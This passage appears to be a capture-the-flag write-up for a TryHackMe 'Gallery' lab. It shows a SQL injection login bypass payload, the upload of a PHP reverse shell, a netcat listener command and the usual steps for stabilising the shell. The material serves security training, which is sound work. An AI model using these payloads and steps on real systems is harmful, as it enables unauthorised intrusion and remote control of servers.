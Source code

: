 **Question 3:** What's the hash password of the admin user?  
**Walkthrough:** Since the tags for the room included SQL injection and RCE, I figured those were the kind of exploits I had to look for. A look on searchsploit showed these exploits.
![searchsploit](/assets/THM-gallery/searchsploit.png)
I copied the third exploit to my current directory using `searchsploit -m 5014.py`. On reading through the code, I found an interesting line.
![exploit.png](/assets/THM-gallery/exploit.png)
So I opened the web browser and went to the ip address at port 8080 and went to the login page. 
![2  Visiting Simple Gallery Page](https://user-images.githubusercontent.com/75413146/153704486-a9180690-64ce-4a5c-ba51-31b2f9b857f9.png)
There I pasted in the username as `admin' or '1'='1'#` and the password as `password`. 
 ![7  We r in](https://user-images.githubusercontent.com/75413146/153705113-9e1847a3-3a5e-474f-a3cc-db6d6d9106fc.png) and  voila! We got in. Now we can go to the album page and find function to upload images. We can upload a php-reverse-shell from `/usr/share/webshells/php/` available in kali linux. Before that modify the ip address and port name in the php file.
 
 
Upload the php-reverse-shell and listening on localhost via `nc -lvnp 1234`.
![7 2 Upload shellcode](https://user-images.githubusercontent.com/75413146/153705349-6173c59a-3551-42d8-8a3e-edcd6d32d468.png)

After the shell is uploaded successfully, activate the shell by clicking on the script you uploaded. You can do this by clicking the 3 dots icon and then “Download” to get the URL.
![Executing the webshell](https://www.6rian.com/images/gallery/80_webshell.png#center) 

To get a stable shell, run `python3 -c "import pty;pty.spawn('/bin/bash')"`. Press CTRL+Z to send the process to background and run the command `stty raw -echo; fg`then type `reset`. Type in `export TERM=xterm` and now you have a persistent shell. 